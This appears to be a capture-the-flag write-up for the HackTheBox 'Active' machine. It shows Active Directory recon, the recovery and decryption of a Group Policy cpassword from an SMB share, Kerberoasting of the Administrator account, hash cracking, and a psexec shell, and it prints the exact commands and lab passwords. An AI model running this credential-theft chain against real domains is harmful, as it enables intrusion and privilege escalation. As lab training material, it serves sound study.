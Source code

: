 # Active [HTB](https://app.hackthebox.com/machines/148)
![active-01]()


## Recon

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 active.htb
```

![ports-02]()


There were also rpc related ports at the buttom, but the above ports are the most relevant. Let's run a version detection scan on them:

```bash
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389 -sCV active.htb -oN nmap.result
```

![nmap-res-03]()

![nmap-res-04]()


We have the following:

+ A DNS server on port 53.
+ The Kerberos service on ports 88, 464.
+ An rpc endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ LDAP services on ports 389, 3268.
+ An SMB server on port 445.
+ Other rpc related services at ports 593, 5722.
+ A tcpwrapper service on ports 636, 3269.
+ Message Farming on port 9389.


We can probably make an educated guess that we are dealing with an Active-Directory domain controller based on the services we see available on the system (DNS, LDAP, Kerberos, etc). We can also conclude that the target domain is `active.htb`, the target OS is probably a 2008 Windows R2 server, and that message singing is enabled and required. 


The fact that RPC and SMB are enabled on the target opens up unique possibilities for domain specific reconnaissance, which can open up vast attack vectors againts the domain. 


Let's begin!


### RPC & SMB Ports 135, 139, 445


At first I try to connect to the target's rpc with a null session:

```bash
rpcclient -U "" -N active.htb 
```

This works, and we get a connection, but trying to enumerate the domain with commands like `enumdomusers` and `enumdomgroups` fails with insufficient privileges. 


Then I ran different tools like `crackmapexec` and `ldapsearch` as well as `enum4linux`. They didn't bring super useful results but `enum4linux -a active.htb` did manage to map the SMB shares on the target:

![smb-shares-05]()


The available shares are highlighed in red at the top. Out of all the shares we can connect and list the contents of the `Replication` share.


If we connect to this share and list it's contents, we will see a `active.htb` directory. I copied this directory recursively using the following set of commands:


```bash
smbclient -N \\\\active.htb\\Replication
smb: \> prompt
smb: \> recurse
smb: \> mget active.htb
```

![mget-06]()


If we list the contents of this directory with `tree active.htb` we can see the following:

![tree-07]()


Looks like we have two group policy objects in here, let's take a look at the files. 


+ `{6AC1786C-016F-11D2-945F-00C04fB984F9}`


This is the group policy you can see near the buttom of the `tree` output. It has mainly two files, `GPT.INI` and `GptTmpl.inf`. None of these files are super useful in getting access to the system. 


+ `{31B2F340-016D-11D2-945F-00C04FB984F9}`

This is the group policy you see near the top of the `tree` output. Here we have five files, `GPT.INI` and `GPE.INI` are not super important. Then there is the `GptTmpl.inf` file, which holds some password policy information like max password age, length, complexity, etc. As well as some kerberos policies. This is more intersting, but not super useful at the moment. 


However, then we have the `Groups.xml` file, and this is where things get really interesting. 


The file reads as such:

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```


We can see the domain's `Ticket Granting Service` service account, along with it's AES encrypted password.

We can try to decrypt the password on our Kali machine as such:

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![decrypt-08]()


The password for the service account is `GPPstillStandingStrong2k18`, and now we have credentials to work with. This opens up a lot of active directory specific attacks, like [kerberosting](https://www.sentinelone.com/cybersecurity-101/what-is-kerberoasting-attack/). 


To find kerberostable user accounts we can use the recently found credentials with impacket's `GetUserSPNs` tool as such:

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip active.htb -request
```

![kerberoast-09]()


Which results in the Administrator's account no less!  


Let's save the entire thing to a file and try to crack it with `hashcat` as such:

```bash
hashcat -m 13100 admin.hash rockyou.txt
```

![cracked-10]()


I use my host GPU for the computation, which cracks after one second to `Ticketmaster1968`, from here I immediately go for psexec to give myself a shell as NT_Authority on this box:

```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@active.htb
```

![root-11]()
